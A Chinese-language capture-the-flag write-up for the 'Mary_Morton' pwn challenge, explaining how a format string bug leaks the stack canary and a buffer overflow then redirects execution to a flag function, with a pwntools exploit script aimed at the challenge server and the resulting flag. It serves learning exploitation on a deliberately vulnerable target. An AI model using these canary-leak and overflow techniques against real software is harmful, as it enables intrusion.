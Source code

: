 # Mary_Morton

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=64a2a62e-adfc-4d89-b5d4-c00368eb6fe7_2)

算是新手友好的题目了，入门用刚刚好。

运行附件，发现真就把漏洞摆在你面前：格式化字符串和栈溢出。

- Welcome to the battle ! <br>[Great Fairy] level pwned 
<br>Select your weapon 
<br>1. Stack Bufferoverflow Bug 
<br>2. Format String Bug 
<br>3. Exit the battle 

checksec发现是64位且有canary，相比于普通栈溢出算进阶题。

-   Arch:         amd64-64-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    Canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x400000)

ghidra看程序逻辑。main函数没啥可看的，就是简单的判断输入执行指定函数的逻辑。栈溢出函数第17行确实有很明显的栈溢出漏洞。

![stackOverflow](../../images/stackOverflow.png)

格式化字符串函数在第18行有很明显的格式化字符串漏洞。

![formatString](../../images/formatString.png)

有一个flag函数。

![flag](../../images/winFlag.png)

- ### read
- > 用于文件描述符对应的文件中读取数据。
- 函数原型：int read(int handle,void *buf,int len);
- 参数：
- > int handle 为要读取的文件。从command line获取数据时，为0
- > void *buf  为要将读取的内容保存的缓冲区
- > int len    读取文件的长度
- 返回值：实际读取的字节数

先看StackBufferoverflow。第17行从命令读取0x100长度的数据，放到明显就没有这么长的local_98中。可以溢出然后覆盖返回地址为Win函数。但是中间有个canary，它们的关系大概是下面这样的

        
        高地址   |                 |
                +-----------------+
                | args            |
                +-----------------+
                | return address  |
                +-----------------+
        rbp =>  | old ebp         |
                +-----------------+
      rbp-8 =>  | canary value    |
                +-----------------+
                | local variables |
                |                 |
        低地址

所以想要从局部变量溢出到返回地址就必须要经过canary。从StackBufferoverflow函数中可以看到函数返回前先对canary做了检查，如果值不对就直接中断程序。有办法可以爆破canary值，但这里有更简单的办法。

FormatString第18行没有对用户的输入进行检查就直接打印了，典型的格式化字符串。当用户输入格式化类型字符串时，程序会往栈上找相应数量的数据来填充格式化字符串，从而内存泄漏。那么我们就可以在这里把canary泄漏后再到StackBufferoverflow覆盖返回地址，因为canary在程序运行后值就不会变了，这个函数的canary值和另一个函数的canary值是一样的。

现在就是要找canary相对于格式化字符串的偏移。截图里面可以看到local_98在stack-0x98,canary在stack-0x10，所以两者的偏移位数就是0x98-0x10=0x88。64位系统8位算一个字节，所以还要除以8，也就是0x88/8=0x11,10进制就是17。这样还不够，仅仅只是local_98相对于canary的偏移，我们还要加上格式化字符串本身相对于我们的输入的偏移(不太确定是不是这个偏移）。这个也非常好算，运行程序到格式化字符串漏洞那里，输入一个AAAAAAAA（64位八个，32位4个）和一堆%p（获取栈上内存），最后观察AAAAAAAA在哪里出现。

![offset](../../images/getOffset.png)

从0x7ffdaaa90f80开始数起，到0x4141414141414141正好6位。(nil)也算。那真正的偏移就是17+6=23。

- ### Tips
- > 利用 %offset\$x或%offset\$p 来获取指定偏移的值，利用 %offset$s 来获取指定参数对应地址的内容。\$符号似乎是个占位符（我不太确定，没学过c）

现在就能写exp了。

```python
from pwn import *
proc=remote("61.147.171.105",64850)
proc.sendlineafter("3. Exit the battle",'2')
str_payload='%23$p'
proc.sendline(str_payload)
proc.recvuntil('0x')
canary=int(proc.recv(16),16)
proc.sendlineafter("3. Exit the battle",'1')
payload=b'a'*0x88+p64(canary)+b'b'*8+p64(0x004008da)
proc.sendline(payload)
proc.interactive()
```

payload=b'a'*0x88+p64(canary)+b'b'*8+p64(0x004008da) 对应这么一个顺序：0x88个垃圾字节+之前得到的canary+在这里没啥用的rbp+目标返回地址。

- ### Flag
- > cyberpeace{89a36bb3350efe7306275c9ca014e2cd}
